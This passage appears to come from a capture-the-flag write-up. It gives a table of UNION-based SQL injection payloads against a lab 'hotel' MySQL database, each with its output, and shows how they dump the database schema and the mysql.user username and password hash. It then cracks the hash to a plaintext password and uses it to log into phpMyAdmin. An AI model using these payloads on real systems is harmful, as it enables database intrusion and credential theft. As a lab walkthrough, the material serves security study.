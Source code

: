 Goal| Injection  
---|---  
Result  
List DBs| `SELECT 1, group_concat(schema_name), 3, 4, 5, 6, 7 from
information_schema.schemata;-- -`  
hotel,information_schema,mysql,performance_schema  
Show Tables in hotel| `SELECT 1, group_concat(table_name), 3, 4, 5, 6, 7 from
information_schema.tables where table_schema='hotel' ;-- -`  
room  
Show Columns in room| `SELECT 1, group_concat(column_name), 3, 4, 5, 6, 7 from
information_schema.columns where table_name='room';-- -`  
cod,name,price,descrip,star,image,mini  
Show Tables in mysql| `SELECT 1, group_concat(table_name), 3, 4, 5, 6, 7 from
information_schema.tables where table_schema='mysql' ;-- -`  
column_stats,columns_priv,db,event,func,
general_log,gtid_slave_pos,help_category,
help_keyword,help_relation,help_topic,host,
index_stats,innodb_index_stats,innodb_table_stats,
plugin,proc,procs_priv,proxies_priv,roles_mapping,
servers,slow_log,table_stats,tables_priv,time_zone,
time_zone_leap_second,time_zone_name,
time_zone_transition,time_zone_transition_type,user  
Show Columns in user| `SELECT 1, group_concat(column_name), 3, 4, 5, 6, 7 from
information_schema.columns where table_name='user';-- -`  
Host,User,Password,Select_priv,Insert_priv,Update_priv,
Delete_priv,Create_priv,Drop_priv,Reload_priv,
Shutdown_priv,Process_priv,File_priv,Grant_priv,
References_priv,Index_priv,Alter_priv,Show_db_priv,
Super_priv,Create_tmp_table_priv,Lock_tables_priv,
Execute_priv,Repl_slave_priv,Repl_client_priv,
Create_view_priv,Show_view_priv,Create_routine_priv,
Alter_routine_priv,Create_user_priv,Event_priv,
Trigger_priv,Create_tablespace_priv,ssl_type,ssl_cipher,
x509_issuer,x509_subject,max_questions,max_updates,
max_connections,max_user_connections,plugin,
authentication_string,password_expired,is_role,
default_role,max_statement_time  
Get Username / Password| `SELECT 1, user,3, 4,password, 6, 7 from
mysql.user;-- -`  
DBadmin  
2D2B7A5E4E637B8FBA1D17F40318F277D29964D0  
  
A [hashes.org search](https://hashes.org/search.php) gives the password:

    
    
    MYSQL5 2d2b7a5e4e637b8fba1d17f40318f277d29964d0:imissyou
    

#### PHPMyAdmin

That username / password will get into the phpmyadmin site:

![1561706176995](https://0xdfimages.gitlab.io/img/1561706176995.png)
